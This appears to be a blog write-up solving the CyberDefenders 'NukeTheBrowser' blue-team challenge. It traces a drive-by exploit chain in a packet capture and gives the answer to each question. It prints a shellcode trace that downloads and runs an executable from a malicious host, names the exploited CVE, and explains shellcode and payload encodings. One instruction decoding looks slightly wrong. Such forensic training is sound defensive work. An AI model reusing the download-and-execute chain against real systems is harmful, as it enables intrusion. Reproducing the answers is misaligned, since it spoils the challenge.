---


[https://cyberdefenders.org/blueteam-ctf-challenges/nukethebrowser/](https://cyberdefenders.org/blueteam-ctf-challenges/nukethebrowser/)


## Basic triage {#35e7b0eb61a480168f73c885ff57092f}


| 10.0.4.15 | 64.236.114.1 (honeynet.org) | 10.0.4.15 [8fd12edd2dc1462] [8fd12edd2dc1462.] [8FD12EDD2DC1462] (Windows) |
| --------- | --------------------------- | -------------------------------------------------------------------------- |
|           | 192.168.56.52               | 192.168.56.51 [shop.honeynet.sg] (Other)                                   |
|           | 192.168.56.51               |                                                                            |
| 10.0.3.15 | 192.168.56.52               | sploitme.com.cn                                                            |
|           | 64.236.114.1                |                                                                            |
|           | 192.168.56.50               | 192.168.56.51 [shop.honeynet.sg] (Other)                                   |
| 10.0.2.15 | 192.168.56.51               |                                                                            |
| 10.0.5.15 | 224.0.0.22                  |                                                                            |


**By using the filter** `http.host==sploitme.com.cn` **and checking** the `http.referer` field, **I** can deduce the malicious website chain:


i can deduce the malicious website chain: shop.honeynet[.]sg → sploitme.com[.]cn → rapidshare.com.eyu32[.]ru





### Q1 Multiple systems were targeted. Provide the IP address of the highest one. {#3477b0eb61a480cebe34c1f8633c9293}


Navigate to **Statistics &gt; Conversations**, and then sort **by IP address to find the highest one:**


> `10.0.5.15`


### Q2 What protocol do you think the attack was carried over? {#3477b0eb61a480eea9fbddc81af12ac3}


The answer was obvious


> `HTTP`


### Q3 What was the URL for the page used to serve malicious executables (don't include URL parameters)? {#3477b0eb61a48029b8cad9852918eb9f}


Navigate to Networkminer files tab and search for exe file





We know the the website that served the malicious executable is: http://sploitme.com.cn/


using wireshark and use the filter: http.host=="sploitme.com.cn"





> `http://sploitme.com.cn/fg/load.php`


### Q4 What is the number of the packet that includes a redirect to the french version of Google and probably is an indicator for Geo-based targeting? {#3477b0eb61a480188be9db205f12a019}


Redirect: In the HTTP protocol, server-side redirection is executed by returning a status code of 301 (moved permanently) or 302 (found). Consequently, the response packet will include a Location: &lt;newURL&gt; header field, which instructs the browser to automatically navigate to that new page.


Respectively, in Wireshark we use the filter: `http.location contains "google”`





> `299`


### Q5 What was the CMS used to generate the page 'shop.honeynet.sg/catalog/'? (Three words, space in between) {#3477b0eb61a480f48b45eec7010f5cae}

- **CMS (Content Management System):** A platform that allows users to create, edit, and manage website content without needing any programming knowledge.
- **General-purpose CMS (Blogs, News, Corporate websites):** WordPress (powering over 40% of all websites globally), Joomla, and Drupal.
- **E-commerce CMS:** Shopify, Magento, WooCommerce, OpenCart, and osCommerce systems.
- **A Zero-day Goldmine:** These platforms are a goldmine for hackers looking to discover and exploit zero-day vulnerabilities.
- **Reconnaissance Technique:** Attackers often use the HTTP Host header to probe and enumerate the targe
- Using http.host==”shop.honey.net.sg” and skim through the packet to find any special one.




The server also have the cookie named OsCsid, also an artifacts of osCommerce installation


I asked AI for the full name.


> `osCommerce Online Merchant`


### Q6 What is the number of the packet that indicates that 'show.php' will not try to infect the same host twice? {#3477b0eb61a480e09da5c828a1d05323}


i use the filter: http.request.uri contains "show.php”





I skimmed through all the packets and clearly the uri: /fg/show.php is malicious as it served obfuscated javascript





And packet no.366 caught my attention because: it’s the third request from 10.0.2.15 to 192.168.56.52 GET /fg/show.php?s=3feb5a6b2f


The server returns a 404 error, which is an intentional behavior designed to avoid infecting the same host multiple times."





> `366`


### Q7 One of the exploits being served targets a vulnerability in "msdds.dll". Provide the corresponding CVE number. {#3477b0eb61a480a2a13cc137b0e4265c}


Using google with the dll file as the keyword:


> **`CVE-2005-2127`**


### Q8 What is the name of the executable being served via 'http://sploitme.com.cn/fg/load.php?e=8' ? {#3477b0eb61a480bb8e49ed59dde3a81e}


Extract the Javascript found in Q6, there are two of them





and use an online javascript compiler (change val into console.log)








There are 4 block of obfucated code like this


We then use cyberchef: 

- swap endianess: for windows LE type
- From hex: to binary




Here we can see some patterns were revealed related to the load.php?e=8


Save the output as shellcode.bin and using scdbg to analyze it: 


```powershell
scdbg -f shellcode.bin /findsc
```





```c++
4010d7  WinExec(C:\users\cuong_nguyen\AppData\Local\Temp\e.exe)
4010e0  ExitThread(0)
```


:::tip

Here the shellcode import urlmon.dll: the dll relates to internect connection and file download

:::


> Based on the `scdbg` trace (`WinExec(C:\users\...\Temp\e.exe)`), the name of the executable is `e.exe`


### Q9 One of the malicious files was first submitted for analysis on VirusTotal at 2010-02-17 11:02:35 and has an MD5 hash ending with '78873f791'. Provide the full MD5 hash. {#3477b0eb61a48013922cc39d44fb3bfc}


The easiest method to solve this question is to use Networkminer, navigate to files tab and search for executable files.








Networkminer already calculate the hash for us - which exactly matched the hash in the question.


> `52312bb96ce72f230f0350e78873f791`


### Q10 What is the name of the function that hosted the shellcode relevant to 'http://sploitme.com.cn/fg/load.php?e=3'? {#3477b0eb61a4806da72ae9a03c363fbe}


From the analysis in Q8, we knew that sploitme.com.cn/fg/load[.]php?e=3 related to the first obfuscated block





Which is 





> The answer is: aolwinamp


### Q11 Deobfuscate the JS at 'shop.honeynet.sg/catalog/' and provide the value of the 'click' parameter in the resulted URL. {#3477b0eb61a480e499b6df59a3f212f1}


Use the same process as Q8





> `84c090bd86`


### Q12 Deobfuscate the JS at 'rapidshare.com.eyu32.ru/login.php' and provide the value of the 'click' parameter in the resulted URL. {#3477b0eb61a48007902ae913fc09bb0d}


Same as the previous question





The URL decode function:





> `3feb5a6b2f`


### Q13 What was the version of 'mingw-gcc' that compiled the malware? {#3477b0eb61a480b78088c2700363f81f}


Use strings to find out if there are any hard code artifact in the malware


```c++
strings video.exe | grep "gcc"
/opt/local/var/macports/build/_opt_local_var_macports_sources_rsync.macports.org_release_ports_cross_i386-mingw32-gcc/work/gcc-3.4.5-20060117-1/gcc/config/i386/w32-shared-ptr.c
```


> `3.4.5`


### Q14 The shellcode used a native function inside 'urlmon.dll' to download files from the internet to the compromised host. What is the name of the function? {#3477b0eb61a48075ae0cc762abe48df2}


We already figured out in Q8





```c++
4010ca  URLDownloadToFileA(http://sploitme.com.cn/fg/load.php?e=8, C:\users\cuong_nguyen\AppData\Local\Temp\e.exe)
```


> `URLDownloadToFile`


## Key takeaway {#3477b0eb61a480678742c66eed57556f}


### Encoding types {#35e7b0eb61a480d9925dd60c942ef41f}

1. The JavaScript Unicode Escape Sequence format.
- The `%u` indicator (The Telltale Sign): This is the most obvious identifier. In programming languages (especially JavaScript and legacy browsers), the `%` sign acts as an escape character, and `u` stands for Unicode. It instructs the system: _"The next 4 characters represent a Unicode code point."_
- Limited Alphabet: If you look closely at the characters following `%u`, you will notice they exclusively consist of digits from `0-9` and letters from `A-F` (e.g., C, B, D, E). This is strictly the Hexadecimal (base-16) numeral system. You will absolutely never see letters like G, H, or Z here.
- Example: `%u9090%u9090` (This translates to standard NOP sleds `\x90\x90\x90\x90` packed into 2-byte chunks).

2. Hex Encoding (C/C++ Format)

- Description: Uses the `\x` prefix instead of `%u`, followed by exactly 2 hexadecimal characters (representing 1 byte of data). This is the standard way to represent raw shellcode or byte arrays in languages like C, C++, and Python.
- Example: `\x33\xC0\x64\x8B` (In x86 assembly, this translates to `xor eax, eax; mov eax, fs:[edx]`).

3. URL Encoding (Percent-Encoding)

- Description: Similar to Hex encoding, but uses the `%` sign followed by 2 hex characters. It is predominantly seen in web address bars, HTTP requests, and cross-site scripting (XSS) payloads to safely transmit special characters over the internet.
- Example: `%3Cscript%3E` (This translates to `<script>`). Or for raw bytes: `%33%C0%64%8B`.

4. XOR / Custom Cipher

- Description: Appears as a completely random blob of gibberish (high entropy). There is no discernible pattern, and no clear prefix like `%u` or `\x`. When you encounter this, it means the payload is encrypted. You must rely on tools like `scdbg` or manually trace the surrounding JavaScript/Assembly code (as we did in the previous question) to extract the decoding "key" and algorithm.
- Example: `Ý}ͱë©` (Raw byte garbage that cannot be read or executed until the shellcode's decoder stub XORs it against a static key like `0x99`).
